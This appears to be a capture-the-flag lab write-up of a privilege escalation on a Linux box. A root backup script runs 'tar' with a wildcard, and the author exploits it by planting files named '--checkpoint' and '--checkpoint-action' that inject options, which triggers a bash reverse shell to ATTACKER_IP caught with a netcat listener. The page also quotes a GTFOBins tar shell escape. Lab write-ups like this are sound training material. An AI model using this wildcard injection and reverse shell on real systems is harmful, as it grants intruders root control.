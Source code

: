 \-rw-r--r-- 1 root root 4679680 Mar 1 16:26 backup.tgz

* No privileges to rename or create files.
* Check contents of "backup.sh".

\#!/bin/bash

cd /var/www/html

tar cf /home/milesdyson/backups/backup.tgz \*

* Script changes directory to "/var/www/html" then uses "tar" to compress content of the directory into a file called "backup.tgz" at "/home/milesdyson/backups".
* Checked GTFOBins for tar exploits.

[**Shell**](https://gtfobins.github.io/gtfobins/tar/#shell). It can be used to break out from restricted environments by spawning an interactive system shell. tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh.

#### **"Tar" allows the usage of 2 options that can be used for poisoning in order to force the binary to execute unintended actions (Execution: Command and Scripting Interpreter: Unix Shell (T1059.004))** <a href="#vefdaebkyafs" id="vefdaebkyafs"></a>

* checkpoint\[=NUMBER] displays progress messages every NUMBERth record (default value is 10).
* checkpoint-action=ACTION executes said ACTION on each checkpoint.
* Action is executed with permissions of user running command - root in this case.

1. Create privileged reverse shell.

printf '#!/bin/bash\nbash -i >& /dev/tcp/ATTACKER\_IP/6666 0>&1' > /var/www/html/shell

chmod +x /var/www/html/shell

touch /var/www/html/--checkpoint=1

touch /var/www/html/--checkpoint-action=exec=bash\ shell

1. Create netcat listener.

nc -lvnp 6666

* Reverse shell caught by listener.

Connection from TARGET\_IP 55874 received!

bash: cannot set terminal process group (4836): Inappropriate ioctl for device

bash: no job control in this shell

whoami

root

1. Find root flag.

find / -name root.txt -type f 2>/dev/null
